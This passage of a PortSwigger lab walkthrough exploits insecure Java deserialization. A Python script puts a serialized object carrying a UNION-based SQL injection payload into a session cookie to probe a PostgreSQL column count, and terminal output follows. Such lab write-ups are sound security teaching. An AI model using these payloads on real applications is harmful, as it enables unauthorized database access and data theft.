 We successfully triggered an SQL syntax error! Which means it's vulnerable to SQL injection!

We also knew that the DBMS (Database Management System) is PostgreSQL from the `ProductTemplate.java` file.

**Next, we need to find out how many columns in the table.**

**To automate things, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup

class exploit():
    def __init__(self, url):
        self.url = url
        
    def sendRequest(self, cookie):
        requestResult = requests.get(self.url, cookies=cookie)
        soup = BeautifulSoup(requestResult.text, 'html.parser')
        print(soup.find_all('div', class_='container')[1].get_text().strip())

def main():
    url = 'https://0ad3005a043b8fd3c07bccd80011000a.web-security-academy.net/'

    Exploit = exploit(url)

    cookie = {
        'session': 'rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAOScgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxOVUxMLE5VTEwsTlVMTCxOVUxMLS0gLQ=='
    }

    Exploit.sendRequest(cookie)

if __name__ == '__main__':
    main()
```

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:49:07
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:50:58
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAOScgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxOVUxMLE5VTEwsTlVMTCxOVUxMLS0gLQ==
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:51:00
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: each UNION query must have the same number of columns
  Position: 55
```
